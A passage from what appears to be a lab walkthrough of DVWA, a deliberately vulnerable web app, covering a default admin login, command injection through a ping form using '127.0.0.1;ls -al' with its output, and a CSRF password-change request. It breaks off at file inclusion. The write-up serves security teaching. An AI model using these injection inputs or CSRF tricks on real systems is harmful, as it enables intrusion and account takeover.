 We found valid login credentials: `admin:password` 

## 2. Command Execution

![Command Execution](/images/ce.png)

This part of the app gives the current user the ability to ping a host.
However it uses a vulnerable piece of code:

`$cmd = shell_exec( 'ping  -c 3 ' . $target );`

Since we control the `$target` variable, we can use `;` or `||` to stack commands.

Using `127.0.0.1;ls -al` as input we get:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.000 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.043 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.089 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.000/0.044/0.089/0.036 ms
total 20
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data 1509 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
```

## 3. Cross Site Request Forgery

![CSRF](/images/csrf.png)

CSRF is an attack in which an authenticated user (usually administrator) unknowingly executes a certain action.
In our case the password change operation results in the following request:

`http://192.168.52.129/dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#`

If we can trick an authenticated user to make this request, we can change this user's password. Usually this is done by tricking the user into visiting a page controlled by the attacker with malicious request embedded inside `img`, `iframe` tags or inside malicious javascript code.

## 4. File Inclusion

![File Inclusion](/images/fi.png)

This one is pretty straight forward. We can change the `page` variable to display sensitive information: 
